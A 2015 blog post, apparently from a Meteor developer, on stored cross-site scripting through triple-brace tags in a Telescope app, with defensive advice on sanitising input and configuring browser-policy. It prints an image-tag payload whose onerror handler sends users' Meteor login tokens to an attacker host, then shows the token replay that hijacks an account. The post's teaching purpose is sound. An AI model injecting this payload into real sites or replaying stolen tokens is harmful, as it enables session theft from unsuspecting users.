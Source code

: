 ```yaml
---
layout: post
title:  "Hijacking Meteor Accounts With XSS"
titleParts: ["Hijacking Meteor Accounts", "With XSS"]
date:   2015-09-07
tags: ['security']
---
```


You've probably heard the term "XSS", or [cross-site scripting](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting), floating around the Meteor community. You've probably also heard that the <code class="language-*">browser-policy</code> package prevents XSS. Great! But... What is XSS?

Let's pretend that we've built an awesome new [Telescope](https://github.com/TelescopeJS/Telescope) application, and we've decided to get a little radical with our design. We've given our users the ability to embed images in their post titles! Our custom <code class="language-javascript">post_title</code> template looks something like this:

<pre class="language-markup"><code class="language-markup">&lt;template name="custom_post_title"&gt;
  &lt;h3 class="post-title &#123;&#123;moduleClass&#125;&#125;"&gt;
    &lt;a href="&#123;&#123;this.getLink&#125;&#125;"&gt;&#123;&#123;&#123;title&#125;&#125;&#125;&lt;/a&gt;
  &lt;/h3&gt;
&lt;/template&gt;
</code></pre>

Great! Now our users can use <code class="language-markup">&lt;img&gt;</code> tags to embed pictures directly in their post titles. There's absolutely nothing that go wrong here, right? Well...

## The Dangers of XSS

This change has actually exposed our application to a particularly dangerous form of cross-site scripting; [Stored XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)#Stored_XSS_Attacks). We've given users the ability to enter potentially malicious markup in their titles. Check out this example title:

<pre class="language-markup"><code class="language-markup">&lt;img src="fakeurl"
     onerror="$.get('//www.malicio.us/'+localStorage['Meteor.loginToken'])"
     alt="Cats suck!"&gt;
</code></pre>

Now, imagine that the bad person who posted this title has a simple web server running on <code class="language-*">www.malicio.us</code> listening for and logging any <code class="language-*">GET</code> requests it recieves. After a few innocent users stumble across this post on our Telescope application, their sensitive login tokens would be pulled from their local storage and sent to <code class="language-*">malicio.us</code>. The <code class="language-*">malicio.us</code> web logs would look something like this:

<pre class="language-bash"><code class="language-bash">GET http://www.malicio.us/g8Ri6DxKc3lSwqnYxHCJ0xE-XjMPf3jX-p_xSUPnN-D
GET http://www.malicio.us/LPPp7Tdb_qveRwa7-dLeCAxpqpc9oYM53Gt0HG6kwQ5
GET http://www.malicio.us/go9olSuebBjfQQqTrL-86d_LlfcctG848r7dBhW_kCL
</code></pre>

The attacker who posted the malicious title could easily steal any of these active sessions by navigating to our Meteor application and running the following code in their browser console:

<pre class="language-javascript"><code class="language-javascript">Meteor.loginWithToken("g8Ri6DxKc3lSwqnYxHCJ0xE-XjMPf3jX-p_xSUPnN-D");
</code></pre>

And just like that, a user's account has been stolen.

<hr/>

The crux of the issue here is that we're using a [triple-brace tag](https://github.com/meteor/meteor/tree/devel/packages/spacebars#triple-braced-tags) to insert raw HTML directly into the DOM. Without any kind of sanitation or validation, we have no way of knowing that users aren't providing us with malicious markup that will potentially run on all of our users' browsers.

In this case, the attacker simply grabbed the current user's `loginToken` out of local storage with the intent of hijacking their account. XSS attacks can be far more sophisticated, though. They can be as subtle as silently calling methods on behalf of the client, and as lavish as constructing entire user interface components designed to extract sensitive information (credentials, credit card numbers, etc…) from users.

Your Meteor application is not solely exposed to cross-site scripting through the use of triple-brace tags. Malicious HTML/JavaScript can be introduced into your [Blaze](https://www.meteor.com/blaze)-powered application through the use of [SafeString](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#safestring), [dynamic attributes](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#dynamic-attributes), and dynamic [attribute values](https://github.com/meteor/meteor/blob/devel/packages/spacebars/README.md#in-attribute-values), to name a few. When using these techniques with user-provided data, be especially sure that you're properly sanitizing or validating the data before sending it into the DOM.

## Browser-policy as a safety net

The [browser-policy](https://github.com/meteor/meteor/tree/devel/packages/browser-policy) package enables your Meteor application to establish its [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/Security/CSP/Introducing_Content_Security_Policy), or CSP. The goal of CSP is to prevent unexpected JavaScript from running on your page.

However, <code class="language-*">browser-policy</code> package is not a turnkey solution to our XSS problem. It requires some configuration to be especially useful. David Weldon has an [excellent guide](https://dweldon.silvrback.com/browser-policy) outlining the benefits of using <code class="language-*">browser-policy</code> and how to go about tuning it to your application. For our application, we would want to make sure that we're disallowing inline scripts:

<pre class="language-javascript"><code class="language-javascript">BrowserPolicy.content.disallowInlineScripts();
</code></pre>

By disallowing inline scripts, the JavaScript found in the <code class="language-javascript">onerror</code> of the image tag would not be allowed to run. This would effectively stop the XSS attack dead in its tracks.

While CSP is an amazing tool that can be used to harden your application against attackers, I believe that it should be considered your last line of defense. You should always try to find and eradicate all potential sources of cross-site scripting, rather than relying on the <code class="language-*">browser-policy</code> to prevent it. There is always the chance that you may have misconfigured your <code class="language-*">browser-policy</code>. On top of that, Content Security Policy [isn't supported on older browsers](http://caniuse.com/#feat=contentsecuritypolicy).

## Final Thoughts

Keep in mind that this was just a single example of cross-site scripting in action. Attackers can use a variety of other techniques and methods in order to achieve their nefarious intents.

The truth is, XSS attacks are relatively rare in Meteor applications. The Meteor team made a great decision when going with a secure default for value interpolation ([double-brace tags](https://github.com/meteor/meteor/tree/devel/packages/spacebars#double-braced-tags)). However, there are [still scenarios](http://blog.east5th.co/2015/04/03/black-box-meteor-triple-brace-xss/) where XSS can rear its ugly head in your Meteor application. In addition to using and configuring `browser-policy`, you should try to identify and fix any potential areas where cross-site scripting may occur.
